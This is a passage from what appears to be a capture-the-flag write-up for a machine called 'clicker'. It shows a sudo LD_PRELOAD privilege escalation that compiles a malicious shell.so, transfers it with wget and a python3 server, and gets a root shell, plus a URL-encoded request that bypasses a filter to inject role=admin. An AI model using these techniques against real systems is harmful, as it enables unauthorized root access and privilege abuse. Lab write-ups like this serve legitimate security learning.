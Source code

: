 Afterward, compile it using the command `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`. Then, transfer the shared library onto the target machine. You can accomplish this with tools like `wget` and set up a simple `python3` web server for the transfer. Finally, execute it with the `LD_PRELOAD` environment variable set to load your custom library.
```
jack@clicker:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /opt/monitor.sh
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

#### URL Bypass
There is another way to bypass the filter on `/save_game.php` and it is by URL encoding the request. The decoded request is `save_game.php?clicks=33,role=admin` and encoded it is `save_game.php?clicks%3D33%2crole=admin`
